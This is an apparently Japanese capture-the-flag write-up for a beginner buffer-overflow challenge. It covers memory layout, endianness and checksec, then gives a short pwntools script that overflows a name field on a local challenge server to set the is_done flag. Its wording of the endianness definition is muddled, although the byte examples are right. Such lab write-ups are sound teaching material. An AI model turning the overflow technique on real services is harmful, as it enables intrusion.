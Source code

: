 ## 事前知識
### Buffer Overflow
データをメモリに書き込む際に、想定された枠を超えて書き込みをすることで、範囲外の領域に書き込みをしてしまうことです。

![bof](./bof.jpg)

### 変数が保存されるメモリ領域
変数には大きく分けてグローバル変数とローカル変数の2種類があります。前者は、初期値を持つ場合は`.data`というメモリ領域に配置され、初期値を持たない場合(0で初期化されている場合も含む)は`.bss`というメモリ領域に配置されます。これらの変数は、アドレスの値が小さい方から大きい方へ順に配置されます。一方で、後者は`stack`に配置され、アドレスの値が大きい方から小さい方へ順に配置されます。また、`malloc`のように、決まった領域を確保する場合は`heap`という領域にメモリが確保されます。こちらは、アドレスの値が小さい方から大きい方へ順に配置されます。

### メモリの配置(little endianとbig endian)
値を上位アドレスから下位アドレスの順に格納していく(取り扱う)方法をlittle endian、逆に値を下位アドレスから上位アドレスの順に格納していく(取り扱う)方法をbig endianと呼びます。

例えば、`0x1337`を格納する場合、

- 32bit-little-endian
  - `37 13 00 00`
- 64bit-little-endian
  - `37 13 00 00 00 00 00 00`
- 32bit-big-endian
  - `00 00 13 37`
- 64bit-big-endian
  - `00 00 00 00 00 00 13 37`

どちらかは`$ file`コマンドでアーキテクチャから確認すると良いですが、little endianのことが多いです。

### checksec
実行ファイルが持っているセキュリティ機構をを読みやすい形式で表示するシェルスクリプトです。
実行すると下記の通り表示されます。

```bash
$ checksec super_easy
[*] '/home/user/work/taskctf21/pwn/super_easy/dist/super_easy'
    Arch:     amd64-64-little   <- Architecture は amd64-64-little
    RELRO:    Full RELRO        <- RELocation REadOnly の略で、GOT Overwrite という攻撃ができない設定
    Stack:    Canary found      <- スタック上での Buffer Overflow を防ぐための機構が有効である設定
    NX:       NX enabled        <- 実行する必要のないデータを実行できなくする No eXecute bit という機構が有効である設定
    PIE:      PIE enabled       <- Position Independent Executable の略で、既知のアドレスが存在しない設定
```

## 方針
`is_done`を0以外にする

## 解法
サーバの起動

```bash
docker-compose up -d
```

```python
from pwn import *

ADDR = '127.0.0.1'
PORT = 30002

io = remote(ADDR, PORT)

print(io.recvuntil(b'name\n'))

payload = b'A' * 16 # name用の部分を全部埋める
payload += b'\x01\x00\x00\x00' # is_doneに1を入れる

io.sendline(payload)
io.interactive()
```

## コメント
buffer overflow問題です。Canaryが有効ですが、構造体の変数はグローバルなのであまり気にしなくて良さそうです。よくわからないけど通った方もいたのではないでしょうか？
